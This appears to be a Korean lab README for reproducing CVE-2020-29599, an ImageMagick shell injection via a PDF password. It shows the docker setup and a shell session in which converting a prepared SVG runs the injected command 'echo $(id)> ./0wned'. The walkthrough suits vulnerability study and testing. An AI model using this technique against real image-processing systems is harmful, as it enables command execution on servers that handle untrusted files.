

# ImageMagick Shell Injection via PDF Password (CVE-2020-29599)

ImageMagick은 래스터 이미지를 표시하고, 생성하고, 변환하고, 수정하고, 편집하는 데 사용되는 무료이며 오픈소스인 크로스 플랫폼 소프트웨어 스위트입니다.

References:

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Imagemagick 7.0.10-36이 설치된 Linux 쉘에 들어가려면 다음 명령어를 실행하십시오:

```
docker compose run im bash
```

/tmp 디렉토리로 들어가서 poc.svg의 형식을 변환하여 취약점을 트리거하십시오:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

명령어 echo $(id)> ./0wned가 성공적으로 실행되었습니다:


